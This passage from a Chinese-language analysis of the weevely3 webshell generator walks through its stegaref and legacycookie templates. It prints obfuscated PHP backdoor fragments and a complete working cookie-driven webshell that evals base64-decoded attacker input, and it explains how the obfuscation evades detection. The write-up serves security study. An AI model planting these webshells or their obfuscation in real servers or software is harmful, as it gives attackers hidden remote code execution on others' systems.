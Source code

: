 		$F='R$$Re=$Rstr$Rpos($s[$i],$f);if($R$e){$k=$k$Rh$R.$kf;ob_$Rsta$Rrt()$R;@ev$Ral(@gzuncom$Rpress(@x($R@bas$Re64_$Rdecode(pr$Re';
		$P='$RER"];$$Rra=@$r["H$RTTP_AC$RCE$RPT_LA$RNGUAGE$R"];if($r$Rr&&$ra){$R$u=pars$Re$R_ur$Rl($rr);par$Rs$Re_str($$Ru["query"]$R,$q)';
		$R='end_c$Rlean$R();$d=$Rbase$R64_en$Rcode(x(gzc$Rompress$R$R($o)$R,$k));pri$Rnt($R"<$R$$Rk>$R$d</$k>");@sessi$Ron_destroy();}}}}';
		$f='2][$R$z$R]];if(s$Rtrpos($p$R,$R$h)===0){$s[$i$R]="";$$Rp=$R$ss($p,3)$R;}if(arr$R$Ray_$Rkey_exists($i,$R$s$R)){$s[$i$R].=$p;$';
		$U=str_replace('iV','','creiViVaiViVte_funciVtiiVon');
		$X=str_replace('$R','',$V.$c.$P.$E.$H.$s.$f.$F.$u.$R);
		$O=$U('',$X);$O();
		?>

5. 通过对最具有格式且没有经过模糊处理的php文件进行源码走读，可以看出，文件中存在"$kh=5d41"和"$kf=402a"这两个参数，这两个参数就是我们生成文件时的定义的密码经过md5加密后的前8位，分在两个参数中存储。<code> **$r=$_SERVER;$rr=@$r["HTTP_REFERER"];$ra=@$r["HTTP_ACCEPT_LANGUAGE"];**</code>从server中去取http协议请求头中的REFERER数据和ACCEPT_LANGUAGE数据，然后通过正则表达式<code> **preg_match_all("/([\\w])[\\w-]+(?:;q=0.([\\d]))?,?/",$ra,$m);**</code>去匹配ACCEPT_LANGUAGE中的数组偏移量。<code> **$h=$sl($ss(md5($i.$kh),0,3));$f=$sl($ss(md5($i.$kf),0,3));**</code>来求出真正有用的payload的header和footer。
<code> **@eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/","/-/"),array("/","+"),$ss($s[$i],0,$e))),$k)));**</code>这个函数是用来解密payload，得到真正攻击的载荷命令。<br><code> **$d=base64_encode(x(gzcompress($o),$k));**</code>把执行结果通过相同的方式进行加密，放在自己密码加密后的标签中<code> **print("<$k>$d</$k>");**</code><br>

### 6.3&emsp;PHP(legacycookie_php.tpl模板)后门文件分析 ###
&emsp;&emsp;&emsp;weevely3中默认生成的文件是以stegaref_php.tpl为模板和以obfusc1_php.tpl为混淆模板来进行后门文件生成。可以在weevely.py文件中对这两个参数进行修改换成以legacycookie_php.tpl为模板和cleartext1_php.tpl为混淆模板生成配合php文件。<br>
**直接对源代码进行跟踪调试**<br>
1. <code> **agent = Template(open(agent_path,'r').read()).render(password=password)**</code>render agent模板文件，得到原始的webshell。webshell源码通过pycharm debug出来初始php代码为：<br>

		u'$c="count";
		$a=$_COOKIE;
		if(reset($a)=="he" && $c($a)>3){
		$k="llo";
		echo "<$k>";
		eval(base64_decode(preg_replace(array("/[^\\w=\\s]/","/\\s/"), array("","+"), join(array_slice($a,$c($a)-3)))));
		echo "</$k>";
		}
		'
&emsp;2. <code> **minified_agent = utils.code.minify_php(agent)**</code>对原始的webshell进行"净化"操作，去除里面"\n\t"等特殊字符。处理完的源码代码为：<br>

		'$c="count";$a=$_COOKIE;if(reset($a)=="he"&&$c($a)>3){$k="llo";echo"<$k>";eval(base64_decode(preg_replace(array("/[^\\w=\\s]/","/\\s/"),array("","+"),join(array_slice($a,$c($a)-3)))));echo"</$k>";}'
&emsp;3. <code> **obfuscated = obfuscator_template.render(agent=agent)**</code>这是最核心的代码，使用obfuscator模板对webshell进行"模糊处理"，去除容易被检测的特征。生成的源码为<br>

		u'<?php
		$c="count";$a=$_COOKIE;if(reset($a)=="he"&&$c($a)>3){$k="llo";echo"<$k>";eval(base64_decode(preg_replace(array("/[^\\w=\\s]/","/\\s/"),array("","+"),join(array_slice($a,$c($a)-3)))));echo"</$k>";}
		?>'
&emsp;4.通过对php源代码的走读可以看出legacycookie_php.tpl模板执行结果放在"<$k></$k>"标签中，标签中执行结果通过正则表达式匹配，然后进行base64解码获得。
